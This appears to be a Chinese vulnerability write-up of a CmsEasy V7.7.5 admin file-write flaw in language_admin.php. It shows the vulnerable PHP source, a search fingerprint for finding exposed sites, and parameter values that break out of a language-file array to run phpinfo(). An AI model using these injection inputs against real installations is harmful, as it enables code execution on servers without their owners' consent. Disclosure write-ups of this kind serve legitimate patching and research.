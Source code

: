 # CmsEasy language_admin.php 后台命令执行漏洞

## 漏洞描述

CmsEasy 后台存在命令执行漏洞，通过文件 language_admin.php 对部分文件进行写入操作，导致任意文件写入

## 影响版本

<a-checkbox checked>CmsEasy V7.7.5_20210919</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="cmseasyedit" </a-checkbox></br>

## 环境搭建

<a-alert type="success" message="https://www.cmseasy.cn/chm/faq/show-645.html" description="" showIcon>
</a-alert>
<br/>



![img](../../../.vuepress/public/img/1632722654239-33f8ba2f-dfd8-48b9-bf8f-a93f1d2b2cba-20220313235033013.png)

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1632722813176-a2c6d9c2-e5f5-483a-8448-775a9ce41d4a-20220313235034285.png)

存在漏洞的文件为 `lib/admin/language_admin.php`

![img](../../../.vuepress/public/img/1632731716459-d529c18d-4ef7-439d-8f89-67046487db78.png)

```php
function add_action() {
        $lang_choice='system.php';
        if (isset($_GET['lang_choice'])){
            $lang_choice=$_GET['lang_choice'];
        }
        if (front::post('submit')) {
            $langid=front::get('id');
            $lang=new lang();
            $langdata = $lang->getrows('id='.$langid, 1);
            if (is_array($langdata)){
                $langurlname=$langdata[0]['langurlname'];
            }else{
                front::alert(lang_admin('language_pack').lang_admin('nonentity'));
            }
            $path=ROOT.'/lang/'.$langurlname.'/'.$lang_choice;
            $tipspath=ROOT.'/lang/'.$langurlname.'/'.$lang_choice;
            $content=file_get_contents($path);
            $tipscontent=file_get_contents($tipspath);
            $replace="'".front::$post['key']."'=>'".front::$post['val']."',";
            $tipsreplace="'".front::$post['key']."'=>'".front::$post['cnnote']."',";
            $content=str_replace(');',"\n".$replace.');',$content);
            file_put_contents($path,$content);
            $pos=strpos($tipscontent,$tipsreplace);
            if ($langurlname != 'cn'&&$pos === false) {
                $tipscontent=str_replace(');',"\n".$tipsreplace.');',$tipscontent);
                file_put_contents($tipspath,$tipscontent);
            }
            if ($_GET['site'] != 'default') {
                $ftp=new nobftp();
                $ftpconfig=config::get('website');
                $ftp->connect($ftpconfig['ftpip'],$ftpconfig['ftpuser'],$ftpconfig['ftppwd'],$ftpconfig['ftpport']);
                $ftperror=$ftp->returnerror();
                if ($ftperror) {
                    exit($ftperror);
                }
                else {
                    $ftp->nobchdir($ftpconfig['ftppath']);
                    $ftp->nobput($ftpconfig['ftppath'].'/lang/'.$langurlname.'/'.$lang_choice,$path);
                }
            }
            event::log(lang_admin('add_to').lang_admin('language_pack'),lang_admin('success'));
            //
            $shepi='<script type="text/javascript">alert("'.lang_admin('dosomething').lang_admin('complete').'");gotoinurl("'.url('language/edit/id/'.$langdata[0]['id'],true);
            $shepi=$shepi.'&lang_choice='.$lang_choice;
            $shepi=$shepi.'");</script>';
            echo $shepi;
            //exit;
            //front::refresh(url('language/edit',true));
        }
        $this->view->lang_choice=$lang_choice;
    }
```

访问这个页面

![img](../../../.vuepress/public/img/1632731775416-f1f75d5f-ced3-4d63-8ecd-f9728e3e785c.png)

其中参数有三个，分别为 `key , cnnote, val`

![img](../../../.vuepress/public/img/1632731945111-a0cb2f4a-4ab8-4f77-a026-368341754607.png)

传入参数后,查看 `lang/cn/system_custom.php` 文件中

```php
<?php
/*
 *中文语言包
 */

return

array(


'2'=>'3',);
?>
```

由于没有对传入的参数进行过滤，通过写入特殊的参数就可以逃逸出数组造成命令执行

分别传入两次参数

```php
test1  test2  test3);
```

写入后文件内容

```php
<?php
/*
 *中文语言包
 */

return

array(

'test2'=>'test3);',);
?>
```

再传入一次参数

```php
test4  ,test5, 	,phpinfo());/*
```

![img](../../../.vuepress/public/img/1632732559691-eed0b63a-9beb-44fc-ac7c-8bb456eaea14.png)

写入后文件内容

![img](../../../.vuepress/public/img/1632732579899-4659ac1d-b516-4960-93ad-c4fdf4800db5.png)

访问文件 `/lang/cn/system_custom.php`

![img](../../../.vuepress/public/img/1632732628987-af135049-37e0-4dcd-bad7-04d53985c677.png)



若有收获，就点个赞吧